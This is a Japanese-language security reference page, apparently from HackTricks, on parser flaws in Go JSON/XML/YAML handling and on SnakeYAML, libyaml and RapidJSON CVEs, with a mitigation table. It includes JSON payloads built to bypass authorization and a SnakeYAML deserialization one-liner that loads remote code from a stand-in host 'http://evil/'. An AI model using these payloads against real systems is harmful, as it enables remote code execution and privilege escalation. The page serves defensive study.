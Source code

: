 # JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Go JSON デコーダ

Go JSON で以下の問題が検出されましたが、他の言語にも存在する可能性があります。これらの問題は[**このブログ投稿**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/)で公開されました。

Go の JSON、XML、および YAML パーサーには、一貫性のない長い履歴と、安全でないデフォルトがあり、これを悪用して**認証をバイパス**したり、**権限を昇格**させたり、**機密データを抽出**したりすることができます。


### (Un)Marshaling 予期しないデータ

目的は、攻撃者が機密フィールド（例：`IsAdmin`、`Password`）を読み書きできる構造体を悪用することです。

- 例の構造体:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- 一般的な脆弱性

1. **タグが欠落している** (タグなし = フィールドはデフォルトでまだ解析される):
```go
type User struct {
Username string
}
```
ペイロード:
```json
{"Username": "admin"}
```
2. **`-`の誤った使用**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
ペイロード:
```json
{"-": true}
```
✔️ フィールドを(アン)マーシャルされないようにブロックする正しい方法:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### パーサーの差異

目的は、異なるパーサーが同じペイロードを異なって解釈する方法を利用して認証をバイパスすることです。例えば：
- CVE-2017-12635: 重複キーによるApache CouchDBのバイパス
- 2022: XMLパーサーの不整合によるZoomの0クリックRCE
- GitLab 2025 SAMLのバイパスによるXMLの特異性

**1. 重複フィールド:**
Goの`encoding/json`は**最後の**フィールドを取ります。
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
他のパーサー（例：JavaのJackson）は**最初**を取るかもしれません。

**2. 大文字小文字の区別:**
Goは大文字小文字を区別しません：
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
ユニコードトリックも機能します:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. クロスサービスの不一致:**
想像してみてください:
- Goで書かれたプロキシ
- Pythonで書かれたAuthZサービス

攻撃者が送信します:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Pythonは`UserAction`を認識し、それを許可します
- Goは`AdminAction`を認識し、それを実行します


### データフォーマットの混乱 (ポリグロット)

目的は、フォーマット（JSON/XML/YAML）を混在させるシステムを悪用すること、またはパーサーエラーでオープンに失敗するシステムを悪用することです。例えば：
- **CVE-2020-16250**: HashiCorp Vaultは、STSがXMLの代わりにJSONを返した後、XMLパーサーでJSONを解析しました。

攻撃者が制御するもの：
- `Accept: application/json` ヘッダー
- JSONボディの部分的な制御

GoのXMLパーサーはそれを**とにかく**解析し、注入されたアイデンティティを信頼しました。

- 作成されたペイロード：
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
- **Go JSON** パーサー: `Action_2` (大文字小文字を区別しない + 最後が勝つ)
- **YAML** パーサー: `Action_1` (大文字小文字を区別する)
- **XML** パーサー: 文字列内の `"Action_3"` を解析する

---

## 注目すべきパーサーの脆弱性 (2023-2025)

> 次の公に悪用可能な問題は、安全でないパースが多言語の問題であることを示しています — 単なるGoの問題ではありません。

### SnakeYAML デシリアライズ RCE (CVE-2022-1471)

* 影響を受ける: `org.yaml:snakeyaml` < **2.0** (Spring-Boot、Jenkinsなどで使用される)。
* 根本原因: `new Constructor()` が **任意のJavaクラス** をデシリアライズし、リモートコード実行に至るガジェットチェーンを可能にします。
* ワンライナー PoC (脆弱なホストで計算機を開きます):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* 修正 / 緩和策:
1. **≥2.0にアップグレード**（デフォルトで`SafeLoader`を使用）。
2. 古いバージョンでは、明示的に`new Yaml(new SafeConstructor())`を使用。

### libyaml ダブルフリー (CVE-2024-35325)

* 影響: `libyaml` ≤0.2.5（多くの言語バインディングで利用されるCライブラリ）。
* 問題: `yaml_event_delete()`を2回呼び出すとダブルフリーが発生し、攻撃者がこれをDoSや、場合によってはヒープの悪用に変えることができる。
* ステータス: 上流は「APIの誤用」として拒否したが、Linuxディストリビューションはポインタを防御的にnull-freeにするパッチを当てた**0.2.6**を出荷した。

### RapidJSON 整数 (アンダー|オーバー) フロー (CVE-2024-38517 / CVE-2024-39684)

* 影響: Tencent **RapidJSON** コミット`8269bc2`以前（<1.1.0-patch-22）。
* バグ: `GenericReader::ParseNumber()`での未チェックの算術演算により、攻撃者が巨大な数値リテラルを作成し、それがラップアラウンドしてヒープを破損させる — 最終的に、結果として得られるオブジェクトグラフが認可決定に使用されるときに特権昇格を可能にする。

---

### 🔐 緩和策 (更新)

| リスク                                | 修正 / 推奨事項                                      |
|-------------------------------------|------------------------------------------------------------|
| 不明なフィールド (JSON)               | `decoder.DisallowUnknownFields()`                          |
| 重複フィールド (JSON)                 | ❌ stdlibに修正なし — [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five)で検証 |
| 大文字小文字を区別しない一致 (Go)     | ❌ 修正なし — 構造体タグを検証 + 入力を事前正規化   |
| XML ゴミデータ / XXE                  | 強化されたパーサーを使用 (`encoding/xml` + `DisallowDTD`)     |
| YAML 不明なキー                       | `yaml.KnownFields(true)`                                   |
| **安全でない YAML デシリアライズ**     | SafeConstructorを使用 / SnakeYAML ≥2.0にアップグレード            |
| libyaml ≤0.2.5 ダブルフリー          | **0.2.6**またはディストリビューションパッチ済みリリースにアップグレード            |
| RapidJSON <パッチ済みコミット         | 最新のRapidJSON（≥2024年7月）に対してコンパイル              |

## 参考文献

- Baeldung – “SnakeYAML 2.0でCVE-2022-1471を解決する”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
